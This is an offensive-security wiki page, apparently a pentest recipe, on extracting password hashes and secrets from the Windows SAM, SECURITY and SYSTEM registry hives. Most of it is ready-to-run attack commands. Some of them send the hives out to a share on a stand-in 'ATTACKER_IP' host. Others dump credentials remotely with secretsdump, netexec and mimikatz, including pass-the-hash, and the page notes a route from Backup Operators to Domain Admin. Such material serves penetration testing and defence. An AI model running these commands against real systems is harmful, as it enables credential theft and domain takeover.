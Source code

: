 ## Theory
In Windows environments, passwords are stored in a hashed format in registry hives like SAM (Security Account Manager) and SECURITY.

| **Hive**   | **Details**                                                                 | **Format or credential material**                                                                                           |
|------------|------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------------------------------|
| SAM        | stores locally cached credentials (referred to as SAM secrets)              | LM or NT hashes                                                                                                              |
| SECURITY   | stores domain cached credentials (referred to as LSA secrets)               | Plaintext passwords, LM or NT hashes, Kerberos keys (DES, AES), Domain Cached Credentials (DCC1 and DCC2), Security Questions (`L$`, `SQSA`, `<SID>`) |
| SYSTEM     | contains enough info to decrypt SAM secrets and LSA secrets                 | N/A                                                                                                                          |

SAM and LSA secrets can be dumped either locally or remotely from the mounted registry hives. These secrets can also be extracted offline from the exported hives. Once the secrets are extracted, they can be used for various attacks, depending on the credential format.
## Exfiltration
=== "UNIX-like"
    Impacket's [reg.py](https://github.com/fortra/impacket/blob/master/examples/reg.py) (Python) script can also be used to do the same operation remotely for a UNIX-like machine. For instance, this can be used to easily escalate from a Backup Operator member to a Domain Admin by dumping a Domain Controller's secrets and use them for a DCSync.
    ```bash
    # start an SMB share
    smbserver.py -smb2support "someshare" "./"

    # save each hive manually
    reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SAM' -o '\\ATTACKER_IPs\someshare'
    reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SYSTEM' -o '\\ATTACKER_IP\someshare'
    reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SECURITY' -o '\\ATTACKER_IP\someshare'

    # backup all SAM, SYSTEM and SECURITY hives at once
    reg.py "domain"/"user":"password"@"target" backup -o '\\ATTACKER_IP\someshare'
    ```
=== "Live Windows"
    When the Windows operating system is running, the hives are in use and mounted. The command-line tool named `reg` can be used to export them.
    ```bash
    reg save HKLM\SAM "C:\Windows\Temp\sam.save"
    reg save HKLM\SECURITY "C:\Windows\Temp\security.save"
    reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
    ```
    !!! note 
        If we compromise an account member of the group Backup Operators, we can become the Domain Admin without RDP or WinRM on the Domain Controller.
        This operation can be conducted remotely with [BackupOperatoToDA](https://github.com/mpgn/BackupOperatorToDA) (C++)
        ```bash
        BackupOperatorToDA.exe -d "domain" -u "user" -p "password" -t "target" -o "\\ATTACKER_IP\someshare"
        ```

        Alternatively, from a live Windows machine, the hive files can also be exfiltrated using Volume Shadow Copy like demonstrated for an NTDS export.
## Secrets dumping
=== "secretsdump"
    Impacket's [secretsdump](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump/) (Python) can be used to dump SAM and LSA secrets, either remotely, or from local files. For remote dumping, several authentication methods can be used like pass-the-hash (LM/NTLM), or pass-the-ticket (Kerberos).
    ```bash
    # Remote dumping of SAM & LSA secrets
    secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'

    # Remote dumping of SAM & LSA secrets (pass-the-hash)
    secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'

    # Remote dumping of SAM & LSA secrets (pass-the-ticket)
    secretsdump.py -k 'DOMAIN/USER@TARGET'

    # Offline dumping of LSA secrets from exported hives
    secretsdump.py -security '/path/to/security.save' -system '/path/to/system.save' LOCAL

    # Offline dumping of SAM secrets from exported hives
    secretsdump.py -sam '/path/to/sam.save' -system '/path/to/system.save' LOCAL

    # Offline dumping of SAM & LSA secrets from exported hives
    secretsdump.py -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
    ```
=== "netexec"
    [NetExec](https://github.com/Pennyw0rth/NetExec) (Python) can be used to remotely dump SAM and LSA secrets, on multiple hosts. It offers several authentication methods like pass-the-hash (NTLM), or pass-the-ticket (Kerberos)
    ```
    # Remote dumping of SAM/LSA secrets
    netexec smb $TARGETS -d $DOMAIN -u $USER -p $PASSWORD --sam/--lsa

    # Remote dumping of SAM/LSA secrets (local user authentication)
    netexec smb $TARGETS --local-auth -u $USER -p $PASSWORD --sam/--lsa

    # Remote dumping of SAM/LSA secrets (pass-the-hash)
    netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --sam/--lsa

    # Remote dumping of SAM/LSA secrets (pass-the-ticket)
    netexec smb $TARGETS --kerberos --sam/--lsa
    ```
=== "mimikatz"
    Mimikatz can be used locally with `lsadump::sam` and `lsadump::secrets` to extract credentials from `SAM` and `SECURITY` registry hives (and `SYSTEM` for the encryption keys), or offline with hive dumps.
    ```bash
    # Local dumping of SAM secrets on the target
    lsadump::sam

    # Offline dumping of SAM secrets from exported hives
    lsadump::sam /sam:'C:\path\to\sam.save' /system:'C:\path\to\system.save'

    # Local dumping of LSA secrets on the target
    lsadump::secrets

    # Offline dumping LSA secrets from exported hives
    lsadump::secrets /security:'C:\path\to\security.save' /system:'C:\path\to\system.save'
    ```